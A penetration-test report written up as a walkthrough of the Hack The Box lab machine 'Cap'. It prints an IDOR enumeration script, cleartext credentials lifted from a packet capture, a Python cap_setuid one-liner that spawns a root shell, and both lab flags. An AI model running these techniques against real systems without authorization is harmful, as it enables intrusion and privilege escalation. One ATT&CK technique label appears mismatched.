






# PentNote Report - HTB_Cap

## Executive Summary

During the security assessment of the target host `10.129.45.111` (HTB_Cap) conducted on July 4, 2026, a multi-stage attack chain was successfully executed, resulting in full system compromise. Initial reconnaissance via Nmap revealed three exposed services: FTP (port 21), SSH (port 22), and a web application (port 80). Manual exploration of the web application identified an **Insecure Direct Object Reference (IDOR)** vulnerability within the packet capture dashboard, allowing unauthorized access to historical network logs. By leveraging a custom automation script, the attacker enumerated and downloaded a PCAP file containing cleartext FTP credentials. These credentials (`nathan:Buck3tH4TF0RM3!`) provided SSH access to the system, enabling the capture of the user flag. Post-exploitation enumeration uncovered a critical misconfiguration: the `/usr/bin/python3.8` binary possessed the `cap_setuid+ep` Linux capability, allowing arbitrary privilege escalation to root. Exploitation of this misconfiguration granted full administrative control and the root flag. This report maps each finding to the MITRE ATT&CK framework and provides actionable remediation strategies aligned with the NSA D3FEND matrix.

| **Client**            | Hack The Box                    |
|-----------------------|---------------------------------|
| **Engagement type**   | Full Scope / Machine Assessment |
| **Scope**             | 10.129.45.111                   |
| **Operator**          | Mohammad Obeidat                |
| **Start date**        | 2026-07-04                      |
| **End date**          | 2026-07-04                      |

| Severity | Count |
|----------|------:|
| Critical | 1     |
| High     | 1     |
| Medium   | 0     |
| Low      | 0     |
| Info     | 0     |

---

## Attack Chains Detected

- **Reconnaissance (Nmap)** ➔ **Web Dashboard Enumeration** ➔ **IDOR Discovery & Automation** ➔ **PCAP Download & Credential Extraction** ➔ **SSH Initial Access (User Flag)** ➔ **Capability Exploitation** ➔ **Root Flag Extraction** ✅ [Completed]

---

## Top 5 Risks

| # | Finding                                      | Severity | Risk Score | Exploitability                     |
|---|----------------------------------------------|----------|------------|------------------------------------|
| 1 | Privilege Escalation via Python Capabilities | Critical | 9.8        | Easy (Local binary manipulation)   |
| 2 | Insecure Direct Object Reference (IDOR)     | High     | 8.5        | Easy (Custom script automation)    |

---

## Remediation Roadmap

| Priority | Finding                                      | Severity | Effort | D3FEND  | Recommendation                         |
|----------|----------------------------------------------|----------|--------|---------|----------------------------------------|
| 1        | Privilege Escalation via Python Capabilities | Critical | Low    | D3-EAP  | Remove `cap_setuid` using `setcap -r /usr/bin/python3.8` |
| 2        | Insecure Direct Object Reference (IDOR)     | High     | Medium | D3-FUAC | Implement session-based authentication and validate user ownership for `/data/*` endpoints |

---

## Affected Assets

| Asset          | Finding Count |
|----------------|--------------:|
| 10.129.45.111  | 2             |

---

## Target Group Findings

### HTB_Cap Findings (10.129.45.111/32)

| Severity | Finding                                      | Host          |
|----------|----------------------------------------------|---------------|
| Critical | Privilege Escalation via Python Capabilities | 10.129.45.111 |
| High     | Insecure Direct Object Reference (IDOR)     | 10.129.45.111 |

---

## Threat Modeling & System Architecture (Mindset Study)

The initial Nmap scan acted as the foundational blueprint for the entire engagement. Identifying three open ports—**FTP (21)**, **SSH (22)**, and **HTTP (80)**—suggested a hybrid architecture where a web front-end likely interacts with backend network utilities. The presence of FTP alongside a web service strongly implied that the application might generate or manage network capture files. This hypothesis was reinforced when navigating to the web root revealed a dashboard titled "Security Monitoring" with a navigation link to `/data`. The URL structure `/data/{integer}` immediately raised a red flag: sequential numeric identifiers without any visible authentication challenge indicated a classic **IDOR** vulnerability. This logical leap—connecting the exposed FTP/SSH services to the web application's data storage mechanism—directed the entire exploitation strategy toward intercepting administrative traffic to harvest valid credentials.

---

## Findings

### 1. Insecure Direct Object Reference (IDOR) - High

- **Description:**  
  The web application hosts a network analysis dashboard that retrieves packet capture summaries using sequential integer parameters directly in the URL path (e.g., `/data/1`, `/data/2`). The application performs no session validation or ownership verification, allowing any unauthenticated user to access historical captures belonging to other administrative sessions.

- **Impact:**  
  Unauthenticated disclosure of sensitive network traffic logs. This exposure permits attackers to download raw PCAP files containing cleartext credentials, session tokens, and internal network communications, leading to lateral movement and privilege escalation.

- **Evidence & Proof of Concept:**  
  To efficiently enumerate valid resource identifiers, a custom Bash automation script (`idor-enum.sh`) was developed. The script iterates through ID ranges and filters for HTTP `200 OK` responses.

  ```bash
  #!/bin/bash
  # idor-enum.sh - Simple IDOR enumerator
  BASE_URL=$1
  START=$2
  END=$3
  for i in $(seq $START $END); do
      curl -s -o /dev/null -w "%{http_code} %{url_effective}\n" "$BASE_URL/$i"
  done
  ```

  Execution of the script successfully identified accessible endpoints from ID `0` through `4`:

  ```bash
  ./idor-enum.sh http://10.129.45.111/data 0 20
  200 http://10.129.45.111/data/0
  200 http://10.129.45.111/data/1
  200 http://10.129.45.111/data/2
  200 http://10.129.45.111/data/3
  200 http://10.129.45.111/data/4
  404 http://10.129.45.111/data/5
  ```

    
  *Caption: Output of the custom enumeration script showing valid IDOR endpoints (0-4) returning HTTP 200 OK.*

  Navigating to `http://10.129.45.111/data/0` triggered an automatic download of a PCAP file named `capture.pcap`. This file was analyzed using Wireshark. By applying the "Follow TCP Stream" filter on the FTP traffic within the capture, cleartext credentials were immediately exposed:

    
  *Caption: Wireshark "Follow TCP Stream" view revealing the FTP authentication sequence containing `USER nathan` and `PASS Buck3tH4TF0RM3!`.*

---

### 2. Privilege Escalation via Linux File Capabilities (Critical)

- **Description:**  
  During internal system enumeration after gaining initial SSH access, the filesystem was scanned for non-standard permission configurations. The binary `/usr/bin/python3.8` was found to have the `cap_setuid+ep` Linux capability flag set. This capability allows the binary to change the effective UID of its process to any user, including root, bypassing standard `sudo` restrictions.

- **Impact:**  
  Any local user with execution permissions on the Python binary can instantly escalate their privileges to full administrative root access without requiring a password, completely compromising the system's security boundary.

- **Evidence & Proof of Concept:**  
  After establishing an SSH session as `nathan` using the credentials harvested from the PCAP, the `getcap` command was used to query for files with extended capabilities:

  ```bash
  nathan@cap:~$ getcap -r / 2>/dev/null | grep python
  /usr/bin/python3.8 = cap_setuid+ep
  ```

    
  *Caption: Output of the `getcap` command confirming the `cap_setuid+ep` flag is set on `/usr/bin/python3.8`.*

  To exploit this misconfiguration, Python's built-in `os.setuid()` function was leveraged to set the current process UID to `0` (root) and spawn an interactive root shell:

  ```bash
  nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  root@cap:~# whoami
  root
  ```

    
  *Caption: Successful privilege escalation demonstrating the transition from `nathan` to `root` using the Python capability exploit.*

---

## Evidence Appendix

### Captured Credentials

| Service | Username | Password |
| :--- | :--- | :--- |
| FTP / SSH | `nathan` | `Buck3tH4TF0RM3!` |

### Flags Recovered

| Flag Type | Flag Value |
| :--- | :--- |
| **User Flag** | `c86861c0e7ea933d33b371d176ac0a31` |
| **Root Flag** | `97e3503a73fb9562aa302cdfbabb072e` |

  
*Caption: Confirmation of the user flag extraction from `/home/nathan/user.txt` after logging in via SSH.*

  
*Caption: Confirmation of the root flag extraction from `/root/root.txt` after privilege escalation.*

---

## MITRE ATT&CK Coverage

| Technique ID | Technique Name | Application |
| :---: | :--- | :--- |
| **T1190** | Exploit Public-Facing Application | Exploiting unauthenticated IDOR on the web application to access network logs |
| **T1552.004** | Credentials in Files (Network Configuration) | Extracting cleartext FTP credentials from downloaded PCAP files |
| **T1078.003** | Valid Accounts (Local Accounts) | Using harvested credentials (`nathan`) for SSH authentication |
| **T1548.001** | Abuse Elevation Control Mechanism (Setuid Capability) | Exploiting `cap_setuid+ep` on Python binary for root privilege escalation |

---

## Acknowledgement

This report was generated using **PentNote** – an advanced documentation framework for penetration testers that dynamically integrates MITRE ATT&CK mapping and NSA D3FEND countermeasures, ensuring comprehensive and professional reporting with minimal effort.  
For more information: [PentNote on GitHub](https://github.com/A1GCH-afk/PentNote)